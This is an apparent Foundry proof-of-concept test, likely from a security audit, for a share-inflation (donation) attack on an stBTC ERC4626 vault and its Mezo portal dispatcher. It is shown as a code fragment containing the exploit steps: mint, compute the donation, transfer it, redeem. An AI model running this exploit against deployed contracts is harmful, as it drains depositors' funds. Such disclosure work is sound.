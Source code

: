 ```
  /** 
  Attacker mints 99 * totalSupply * to acquire 99% of totalSupply
  */
  console.log(&quot;@&gt; Attacker mints to acquire %s% of totalSupply&quot;, portion);
  
  deal(tBTC, address(this), requiredSupply*pps);
  uint attackerInitialCapital &#x3D; IERC20(tBTC).balanceOf(address(this));
  IERC20(tBTC).approve(stBTC, type(uint).max);
  IERC4626(stBTC).mint(requiredSupply, address(this));
  uint myShares &#x3D; IERC20(stBTC).balanceOf(address(this));

  console.log(&quot;--- --- ---&quot;);
  console.log(&quot;@&gt; tBTC in stBTC: %s&quot;, IERC20(tBTC).balanceOf(stBTC));
  console.log(&quot;@&gt; tBTC in disptacher: %s&quot;, IERC20(tBTC).balanceOf(dispatcher));
  console.log(&quot;@&gt; dispatcher depositBalance: %s&quot;, IAllocater(dispatcher).depositBalance());
  console.log(&quot;--- --- ---&quot;);


  /**
  Attacker inflates his shares so that it eat up all depositBalance in Mezo portal
  targetSharePrice &#x3D; expectedValue / attackerShares
  targetAsset &#x3D; targetSharePrice * totalSupply
  requiredDonation &#x3D; targetAsset - totalAsset
  +1 because convertToAssets round down
  */
  uint assetInPortal &#x3D; IAllocater(dispatcher).depositBalance();
  currentTotalSupply &#x3D; IStBTC(stBTC).totalSupply();
  currentTotalAsset &#x3D; IStBTC(stBTC).totalAssets();

  console.log(&quot;@&gt; Attacker owns: %16e% of totalSupply&quot;, myShares*1e18/currentTotalSupply );

  uint whatIWant &#x3D; myShares*pps + assetInPortal;
  uint requiredDonation &#x3D; ((whatIWant*currentTotalSupply)/myShares) - currentTotalAsset + 1;
  
  console.log(&quot;@&gt; Attacker inflates his shares so that it eat up all depositBalance in Mezo portal&quot;);
  console.log(&quot;@&gt; Required donation: %s&quot;, requiredDonation);
  deal(tBTC, address(this), requiredDonation);
  IERC20(tBTC).transfer(dispatcher, requiredDonation);

  attackerInitialCapital +&#x3D; requiredDonation;

  console.log(&quot;@&gt; Attacker&#x27;s shares now worth: %s&quot;, IERC4626(stBTC).convertToAssets(myShares));

  console.log(&quot;--- --- ---&quot;);
  console.log(&quot;@&gt; tBTC in stBTC: %s&quot;, IERC20(tBTC).balanceOf(stBTC));
  console.log(&quot;@&gt; tBTC in disptacher: %s&quot;, IERC20(tBTC).balanceOf(dispatcher));
  console.log(&quot;@&gt; dispatcher depositBalance: %s&quot;, IAllocater(dispatcher).depositBalance());
  console.log(&quot;--- --- ---&quot;);

  assertEq(IERC4626(stBTC).convertToAssets(myShares), IAllocater(dispatcher).depositBalance()+IERC20(tBTC).balanceOf(stBTC));
  console.log(&quot;@&gt; Assert that when redeeming, attacker owed assets would eat up all tBTC in stBTC contract and depositBalance in Mezo portal&quot;);

  /**
  Attacker redeems all his shares
  */
  IERC4626(stBTC).redeem(myShares, address(this), address(this));
```